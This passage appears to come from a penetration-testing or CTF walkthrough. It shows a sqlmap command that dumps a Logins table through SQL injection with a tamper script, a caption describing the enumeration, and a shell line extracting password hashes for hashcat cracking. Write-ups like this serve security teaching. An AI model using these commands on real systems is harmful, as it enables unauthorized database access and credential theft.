{% tab title="Data" %}
{% code overflow="wrap" %}
```bash
sqlmap -r getcolleagues.req --current-db --batch --tamper=charunicodeescape -D Hub_DB -T Logins --dump
```
{% endcode %}
{% endtab %}
{% endtabs %}

<figure><img src="../../.gitbook/assets/multi_sqlmap_process.png" alt=""><figcaption><p>Figure 13: Using SQLMap for enumerating the current database's name (1), its tables (2), the table's columns (3), and, finally, dumping the table's data.</p></figcaption></figure>

SQLMap outputs the table data in a handy CSV file which we can manipulate and pass it to hashcat. Doing that results in 17 usernames and 4 hashes. Passing those hashes to **hashcat's auto-detect mode**, comes back with 4 suggestions (Figure 14).

{% tabs %}
{% tab title="1. Extract Hashes" %}
```bash
cat Logins.csv | cut -d',' -f2 | sort | uniq > hashes
```
{% endtab %}

